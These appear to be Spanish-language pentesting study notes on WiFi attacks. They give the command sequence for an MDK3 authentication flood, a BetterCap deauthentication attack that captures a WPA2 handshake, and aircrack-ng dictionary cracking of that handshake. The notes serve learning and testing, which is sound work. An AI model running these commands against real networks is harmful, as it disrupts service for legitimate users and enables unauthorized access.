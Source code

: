 ## MDK3
Este ataque lo que hace es generar una n cantidad de clientes ser autenticados en el AC victima, de esta manera saturar la red y que los clientes reales se desconecten provocando que se vuelvan a conectar y capturar el handshake.

Empezamos a capturar todo el trafico del AC para llegar a capturar el Handshake

	airodump-ng -c 6 -w CapturasDeAuth-RedBlack --essid Black wlan1mon

- -c 6 *canal del AC*
-  -w Capturas  *nombre del archivo donde se guardara las capturas*
-  --essid Black *nombre del AC*

Una que empezamos a capturar el trafico realizaremos el ataque, esto empezara a generar miles de clientes falsos tratando de autentificarse al AC

	mdk a -a D0:B6:6F:5A:AC:BD 

- a *tipo de ataque*
- -a *dirección mac del AC*


## BetterCap
Aquí se explica que es la herramienta [[BetterCap]]

	airmon-ng start wlan0
Activamos la tarjeta de red en modo monitor

	bettercap -iface wlan0mon
Iniciamos el bettercap

	wlan0mon# wifi.recon on
Escaneamos los AC disponibles

	events.ignore <evento>
Ignora los eventos que se van surgiendo

	wifi.show 
Muestra los AC  disponibles

	set net.sniff.output CapturasDeAuth.pcap
Especificamos donde guardaremos las capturas cuando hagamos un sniff

	net.sniff on
Empezamos a sniffear todos los AC que tenemos al alcance

	wifi.recon.channel 2
Especificamos el canal del AC que queremos sniffear

	wifi.deauth 68:d7:9a:56:24:c6
Iniciamos el ataque de Auth *global* al AC
-68:d7:9a:56:24:c6 *BSSID del AC*
Debemos de visualizar en los outputs *WPA2 HandShake (FULL)* esto se debe a que se capturo un [[HandShake]]

Ahora una vez que tenemos el handshake, podemos romper el hash con la herramienta de aircrack-ng 

	aircrack-ng -w dicc.txt CapturaDeAuth.pcap
Aquí aplicamos fuerza bruta con aircrack-ng proporcionando un diccionario y la captura del handshake, se desplegara un menú de todo el sniff, solo debemos de proporcionar el id del registro donde se encuesta el handshake.

